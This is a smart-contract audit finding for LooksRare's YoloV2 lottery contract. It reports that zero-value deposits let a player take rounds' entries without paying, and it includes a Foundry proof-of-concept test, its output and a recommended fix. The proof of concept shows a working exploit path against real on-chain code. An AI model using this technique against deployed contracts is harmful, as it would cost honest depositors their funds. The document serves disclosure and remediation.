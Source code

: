 Jumpy Butter Pig

high

# The attacker can enter the game by depositing 0 ETH.

## Summary
An attacker can obtain numerous entries by depositing 0 ETH and potentially win the game, causing losses to users who deposited ETH to participate.
## Vulnerability Detail
The `depositETHIntoMultipleRounds` function allows a user to deposit ETH into multiple rounds at once. It takes a uint256 array as input. However, a potential issue arises as the function does not validate the elements of the array to ensure they are not equal to 0, which bypasses the check at https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L337-L340. This vulnerability enables an attacker to submit an array like [0, 0, 0, 1 ether] multiple times, filling the deposit array for a specific round and thereby increasing the chances of winning the game.

`test : `
```solidity
    function test_check0Deposit() public{
        uint256[] memory amounts = new uint256[](4);
        amounts[0] = 0;
        amounts[1] = 0; // Depositing 0 amount in Round 2
        amounts[2] = 0;
        amounts[3] = 1 ether;
        vm.deal(user1,2 ether);
        vm.startPrank(user1);
        yolo.depositETHIntoMultipleRounds{value: 1 ether}(amounts); // user1 Depositing ETH into multiple rounds
        (
                IYoloV2.RoundStatus status,
                uint40 maximumNumberOfParticipants,
                uint16 protocolFeeBp,
                uint40 cutoffTime,
                uint40 drawnAt,
                uint40 numberOfParticipants,
                address winner,
                uint96 valuePerEntry,
                uint256 protocolFeeOwed,
                IYoloV2.Deposit[] memory deposits
            ) = yolo.getRound(2); // Getting the Round 2's Info
        vm.stopPrank();
        vm.deal(user2,2 ether);
        vm.startPrank(user2);
        yolo.depositETHIntoMultipleRounds{value: 1 ether}(amounts); //user2 Depositing ETH into multiple rounds
        (
                IYoloV2.RoundStatus status1,
                uint40 maximumNumberOfParticipants1,
                uint16 protocolFeeBp1,
                uint40 cutoffTime1,
                uint40 drawnAt1,
                uint40 numberOfParticipants1,
                address winner1,
                uint96 valuePerEntry1,
                uint256 protocolFeeOwed1,
                IYoloV2.Deposit[] memory deposits1
            ) = yolo.getRound(2); // Getting info of round 2
        vm.stopPrank();

        assertEq(deposits1.length,2); // Round 2 should have 2 deposits i.e user1 and user2 deposits
        assertEq(deposits1[0].tokenAmount,0); // user1 deposit should be 0;
        assertEq(deposits1[1].tokenAmount,0); // user2 deposit should be 0;
        

        
    }
```
`Result : `

```solidity
Running 13 tests for test/foundry/Yolo.depositETHIntoMultipleRounds.t.sol:Yolo_DepositETHIntoMultipleRounds_Test
[PASS] test_check0Deposit() (gas: 731846) // Passing test
[PASS] test_depositETHIntoMultipleRounds() (gas: 594169)
[PASS] test_depositETHIntoMultipleRounds_DrawFirstAndOpenSecondRound() (gas: 6525977)
[PASS] test_depositETHIntoMultipleRounds_DrawFirstAndSecondRound() (gas: 6543968)
[PASS] test_depositETHIntoMultipleRounds_DrawOpenRound() (gas: 6750947)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_AmountIsNotDivisibleByValuePerEntry() (gas: 58136)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_CurrentRoundIsExpired() (gas: 545850)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_CurrentRoundIsNotOpen() (gas: 6297149)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_FutureRounds_MaximumNumberOfParticipantsReached() (gas: 597906)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_InvalidValue() (gas: 529734)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_OnePlayerCannotFillUpTheWholeRound_FirstRound() (gas: 20793295)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_ZeroAmountsLength() (gas: 25540)
[PASS] test_depositETHIntoMultipleRounds_RevertIf_ZeroETHSent() (gas: 19515)
Test result: ok. 13 passed; 0 failed; 0 skipped; finished in 3.13s

```
## Impact
An attacker can deposit numerous amounts of 0 ETH into a round and potentially win the game. This can lead to losses for other victim users who have actually deposited the required cost for entry into the game, causing them to lose their funds.
## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L337-L340
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1280-L1288
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1417-L1455
## Tool used

Manual Review

## Recommendation
```solidity
        for (uint256 i; i < numberOfRounds; ++i) {
            uint256 roundId = _unsafeAdd(startingRoundId, i);
            Round storage round = rounds[roundId];
            uint256 roundValuePerEntry = round.valuePerEntry; 
            if (roundValuePerEntry == 0) {
                (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
            }

            _incrementUserDepositCount(roundId, round);

            uint256 depositAmount = amounts[i]; 
            require(depositAmount != 0, "0 Amount not allowed"); // Add this check
            if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;

            entriesCounts[i] = entriesCount;
        }
```